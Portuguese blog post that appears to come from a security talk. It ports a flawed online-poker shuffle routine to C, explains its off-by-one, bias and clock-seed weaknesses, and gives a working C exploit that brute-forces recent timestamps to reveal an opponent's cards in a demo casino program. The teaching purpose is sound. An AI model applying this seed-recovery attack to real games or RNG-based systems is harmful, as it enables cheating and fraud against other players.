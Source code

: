 ```yaml
---
categories:
- code
date: '2021-02-26'
title: Lessons From Online Poker Exploit
---
```


Em 2014 eu palestrei na trilha de segurança do TDC em São Paulo um tema que me deixou muito animado: um exploit baseado em falhas de programação em um código de 10 linhas. O código era tão simples que achei válido traduzir para C e demonstrar como atacar uma simulação de cassino online.

Esta palestra (e o código) se perdeu no tempo, mas eu anotei o nome da pesquisadora que escreveu o post pelo qual me baseei: Laura Diane Hamilton (que também estuda Machine Learning em seu blog). [Seu post] comenta sobre uma história de 1990 quando hackers se aproveitaram de falhas básicas no algoritmo de embaralhamento de cartas de pôquer.

O código original estava escrito em Pascal, mas é facilmente traduzido para C:

    unsigned char Card[52];
    unsigned char CurrentCard = 0;
    unsigned char JustShuffled = 0;
    
    void DeckShuffle()
    {
      unsigned char ctr;
      unsigned char tmp;
      unsigned char random_number;
    
      /* Fill the deck with unique cards */
      for( ctr = 0; ctr < 52; ctr++ )
        Card[ctr] = ctr + 1;

      /* Generate a new seed based on the system clock */
      srand(time(NULL));

      /* Randomly rearrange each card */
      for( ctr = 0; ctr < 52; ctr++ )
      {
        random_number = rand() % 51;
        tmp = card[random_number];
        card[random_number] = card[ctr];
        card[ctr] = tmp;
      }

      CurrentCard = 0;
      JustShuffled = 1;
    }

Fiz um código para compilar e rodar o embaralhador de cartas que [embaralha e imprime] a saída em cada nova execução para podermos observar mais facilmente os bugs encontrados por Hamilton. A falha número 1, o "An Off-by-One Error", pode ser feita em C também, se você usar a função rand() da maneira como está no código:

    random_number = rand() % 51;

É um erro simples de ser cometido por programadores incautos, que querem expressar na verdade a obtenção de um número aleatório entre 1 e 52 e ao mesmo tempo obter o índice correto 0-based de um array. No entanto, o resto de uma divisão por N sempre irá cair entre 0 e N-1, já obtendo o índice correto em C.

    random_number = rand() % 52;

Para observar o que Hamilton quer dizer com "a 52a. carta nunca irá cair na 52a. posição" é possível forçar um loop nesse estilo:

    /* call only once in main */
    srand(time(NULL));

    do
    {
      DeckShuffle();
    }
    while( Card[51] != 52 );

Este loop nunca irá terminar. Faça o teste. Depois compare com a rapidez com que o loop encontra a carta 52 em qualquer outra posição.

A segunda falha, "The Shuffle Isn't Uniform", diz respeito à distribuição não-uniforme da igual probabilidade de certas cartas estarem em qualquer posição da pilha. Da maneira com que é implementado o algoritmo essa distribuição é enviesada. Temos como provar isso atribuindo pesos a cada embaralhada e depois de um certo tempo exibir os totais:

    int CardStats[52];
    int j, j2;

    for( j = 0; j < 1000; ++j )
    {
      for( j2 = 0; j2 < 1000; ++j2 )
      {
        DeckShuffle();
        for( i = 0; i < 52; ++i )
          if( Card[i] == i+1 )
            CardStats[i]++;
      }
    }

    printf("cards stats: \n");
    for( i = 0; i < 52; ++i )
    {
      printf("%d ", CardStats[i]);
    }

A versão original do algoritmo rodando um milhão de vezes demonstra o viés de forma descarada:

    cards stats:
    19270 18869 18685 18442 
    18348 18024 18119 17647 
    17612 17388 17661 17360 
    17183 17018 17176 16621 
    16705 16522 16337 16599 
    16499 16238 16315 15970 
    16294 16388 16294 16418 
    16463 16313 16462 16491 
    16450 16384 16674 16736 
    16577 16879 16933 17159 
    17417 17344 17672 18025 
    17883 18053 18107 18691 
    19042 19152 19559 0

Com a correção desse viés (e do bug da 52a. carta) aplicada:

    random_number = rand() % (ctr - 52) + ctr;

O resultado se torna muito mais uniforme:

    cards stats:
    19116 19035 19371 19328 
    19293 19327 19308 19277 
    19412 19231 19314 19192 
    19200 19229 19461 19398 
    19299 19314 19452 19291 
    19329 19003 19354 19282 
    19319 19237 19255 19149 
    19321 19291 19123 19266 
    19237 19443 19355 19318 
    19321 19127 19147 19277 
    19250 19307 19353 19169 
    19047 19225 19310 19297 
    19298 19423 19370 19213

No entanto, o pior bug talvez seja a união entre a terceira e a quarta falhas apontadas pela pesquisadora: "Using a 32-bit Seed" + "Using the System Clock as a Seed". Com esses dois unidos o hackerismo fica à solta, pois além das possibilidades de embaralhamento ficarem restritas em 2^32 o uso do clock limita em 86,400,000 milissegundos por dia da função random do Pascal. Em C poderia ser feito algo semelhante.

Um range muito específico de geração da semente do gerador de números aleatórios pode criar uma tabela maleável de possibilidades. Com isso em mãos, de acordo com Hamilton, uma vez que o atacante saiba pelo menos cinco cartas é possível fazer uma busca rápida em um range pequeno possibilidades. Em um jogo de pôquer isso é possível apenas com duas cartas em sua mão e as três cartas na mesa (flop).

Com base nesse comportamento vamos criar um [exploit] que recebe as três cartas do flop fornecidas pelo atacante que está no jogo e que inicia uma busca a partir do horário atual para trás. Conforme o programa encontra matches dessas três cartas juntas ele exibe o deck completo de cartas, a partir do qual o atacante pode verificar se suas cartas constam na distribuição.

    time(&curr_time);

    printf("how is the flop? ");
    scanf("%d %d %d", &flop1, &flop2, &flop3);

    while( 1 )
    {
      DeckShuffle(curr_time);

      if( Card[0] == flop1 && Card[1] == flop2 && Card[2] == flop3 )
      {
        printf("%d: ", (int) curr_time);
        for( i = 0; i < 52; ++i )
        {
          printf("%d ", Card[i]);
        }
        printf("\n");
      }

      curr_time--;
    }

Por sua vez o [cassino] rodará o algoritmo bugado que já vimos. Para simplificar ele já pergunta para o jogador #2 se ele sabe quais são as cartas do jogador #1. Se ele não souber o programa diz ser ainda seguro, mas se acertar isso é revelado.

    DeckShuffle();
  
    printf("(for you) your cards, player#%d: %d %d\n", 
      player, Card[3 + (player-1) * 2], Card[3 + (player-1) * 2 + 1]);
    printf("(for all) flop: %d %d %d\n", Card[0], Card[1], Card[2]);

    player1_card1 = Card[3];
    player1_card2 = Card[4];
  
    printf("do you know which cards have player #1? ");
    scanf("%d %d", &player1_guess1, &player1_guess2);

    if( player1_guess1 == player1_card1 
      && player1_guess2 == player1_card2 )
    {
      printf("acerto, miseravi!\n");
    }
    else
    {
      printf("no no no, I am still secure!\n");
    }

Para rodar os programas basta iniciar o cassino e copiar as cartas do flop. Em seguida rodar o exploit e colar o flop. A partir daí ele começa a calcular e quando houver um deck em que aparecem as suas cartas copiar e colar as cartas do adversário, ou seja, o jogador #1, que são as cartas logo depois do flop.

    >cassino.exe
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1?
    
    >cassino_exploit.exe
    how is the flop? 9 22 15
    1614385852: 9 22 15 6 12 1 21 14 ...
    1614222117: 9 22 15 4 36 16 25 5 ...
    1613983918: 9 22 15 32 31 14 16 ...
    ^C
    
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1? 6 12
    acerto, miseravi!

[Seu post]: http://www.lauradhamilton.com/random-lessons-online-poker-exploit
[embaralha e imprime]: http://www.caloni.com.br/code/shuffle_cards.c
[exploit]: http://www.caloni.com.br/code/cassino_exploit.c
[cassino]: http://www.caloni.com.br/code/cassino.c